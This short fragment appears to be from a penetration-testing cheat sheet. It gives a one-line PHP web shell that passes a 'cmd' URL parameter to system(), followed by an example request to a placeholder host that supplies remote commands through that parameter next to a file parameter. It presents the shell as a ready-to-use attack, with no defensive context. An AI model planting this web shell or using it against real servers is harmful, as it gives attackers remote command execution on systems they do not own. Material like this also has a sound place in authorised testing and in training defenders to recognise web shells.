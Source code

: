 ```
<?php system(\$_GET['cmd']);?>
```

sometimes & or ? after `cmd`

`http://blah.com/index.php?file=asdf.txt&cmd=<RCE commands>`

